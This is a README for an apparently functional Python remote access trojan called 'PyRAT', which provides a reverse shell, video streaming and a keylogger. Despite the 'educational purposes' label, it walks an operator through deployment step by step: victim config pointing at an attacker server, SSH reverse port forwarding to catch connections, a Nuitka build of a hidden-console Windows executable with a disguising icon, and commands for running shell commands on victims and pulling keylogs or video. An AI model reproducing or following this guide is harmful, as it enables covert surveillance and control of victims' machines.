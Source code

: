 # PyRAT

## Simple Trojan written in python for educational purposes

![img.png](images/PyRATs.png)

---

## About

I wrote a simple RAT with reverse shell, video streaming and keylogger features. A server with a white ip is needed to communicate with the victim.

---

## Usage

### Configurations

```python
# cfg.py
local_ip = '127.0.0.1' # Localhost
local_port = 4444 # Local port for connections
local_data_port = 5555 # Local port for data transmission
```

```python
# victim_cfg.py
srv_ip = '<remote_server_ip>' # Remote server ip
srv_port = 4444 # Remote port for connections
srv_data_port = 5555 # Remote port for data transmission
```

### Remote server

To catch the victim's connection from anywhere, 
we need ssh access to the server with a white IP.
All we need to change is the ssh daemon config.
This config is located in the `/etc/ssh/sshd_config` directory. 
We only need to uncomment `GatewayPorts` line, and set the value to `yes`.
Next, restart the `ssh`.

```shell
sudo nano /etc/ssh/sshd_config # Change GatewayPorts to yes
sudo systemctl restart ssh # Restart ssh daemon
```
![img.png](images/GatewayPorts.png)

### Port forwarding via ssh

To make a port forwarding, we execute this command. 
We are specify the port of the remote server ( in my case it is `44444` ),
then write `:127.0.0.1:4444`, this is the local port on which we will wait for connections.
Everything that comes to port `44444` the remote server will be transmitted to the attacker's local port.
We do the same for the data transfer port `55555`.

```shell
ssh -vN -R 44444:127.0.0.1:4444 -R 55555:127.0.0.1:5555 <user>@<server_ip> -i <ssh_private_key>
```

### Build
Let's build `.exe` file for our victim using Nuitka.
In order to catch the connection, the victim must run this file on his machine.

```shell
python -m nuitka --standalone --onefile --windows-console-mode=disable --windows-icon-from-ico=<icon.ico> --output-filename=<filename.exe> .\victim_startup.py
```

### Usage

To run the local server use `python PyRAT.py` command.
After connecting the first victim, we can use the `victims` command to check all available victims.
For connect to specific victim, use `use <index>` command.
The `info <index>` function is also available.
After connecting to the victim, we can execute the `log` or `stream` commands
to transfer a log file or broadcast a video.
Otherwise, the commands that you have written will be executed by victim shell.